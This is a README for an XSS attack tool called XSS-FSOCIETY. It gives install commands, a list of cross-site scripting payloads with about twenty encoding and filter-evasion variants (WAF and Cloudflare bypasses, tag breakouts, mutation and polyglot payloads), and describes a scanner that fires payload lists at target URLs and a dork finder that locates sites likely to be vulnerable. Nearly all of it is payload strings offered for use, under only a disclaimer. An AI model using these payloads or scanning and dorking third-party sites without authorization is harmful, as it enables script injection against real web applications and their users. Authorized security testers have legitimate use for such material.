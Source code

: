 # XSS-FSOCIETY

# Note! : We don't Accept any responsibility for any illegal usage.

# cd Installation cd

git clone https://github.com/FSOCIETY-coder-dz/XSS-FSOCIETY.git

cd XSS-FSOCIETY

pip3 install -r requirements.txt

python3 payloader.py

card_file_box Features card_file_box

*Basic Payload

Sets default parameter to :<script>alert(1)</script>
*Div Payload

Sets default parameter to :<div onpointerover='alert(1)'>MOVE HERE</div
*Img Payload

Sets default parameter to :<img src=x onerror=alert('1');>
*Body Payload

Sets default parameter to :<body ontouchstart=alert(1)>
*Svg Payload

Sets default parameter to :<svg onload=alert('1')>
*Enter Your Payload

Encodes payload writed by user
*Payload Generator Parameter

Encodes payload on selected tag

* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT

*Xss Scanner

Initially you'll need to enter url of target Please enter the url like this example==>e.g target -----> http://target.com/index.php?name= Selected for scanning payload list

    BASIC PAYLOAD LIST ==> Payload list consisting of script tag
    DIV PAYLOAD LIST ==> Payload list consisting of div tag
    IMG PAYLOAD LIST ==> Payload list consisting of img tag
    BODY PAYLOAD LIST ==> Payload list consisting of body tag
    SVG PAYLOAD LIST ==> Payload list consisting of svg tag
    MIXED PAYLOAD LIST ==> Payload list consisting of all tag
    ENTER FILE PATH ==> Payload list determined by the user ,Please enter the url like this example..! (e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.
*Xss Dork Finder

First enter the dork for searching: e.g---->inurl:"search.php?q=" Results will be saved in "dork.txt" after scanning.
Known Issues
Fixed:

    Unicode errors

    Module errors

Important:

If you want to use tool for python3 installed on Windows download below link:
https://github.com/PHOENIX7713/XSS-PHOENIX.git
Bugs and enhancements

For bug reports or enhancements, please open an issue here.
Support and Donations

Contact us with email oanonymous85@gmail.com.com.tr

Copyright 2020

